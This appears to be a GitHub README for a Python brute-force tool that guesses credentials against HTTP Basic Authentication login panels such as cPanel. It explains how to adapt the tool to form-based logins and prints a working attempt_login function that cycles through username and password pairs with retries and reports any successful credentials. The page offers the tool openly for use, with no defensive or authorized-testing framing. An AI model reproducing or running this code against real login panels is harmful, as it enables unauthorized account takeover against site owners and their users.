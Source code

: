 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

* Example:

### Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
* Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                if response.getcode() == 200:
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

* You can see the help menu by running:

```
python bruteforce.py
```
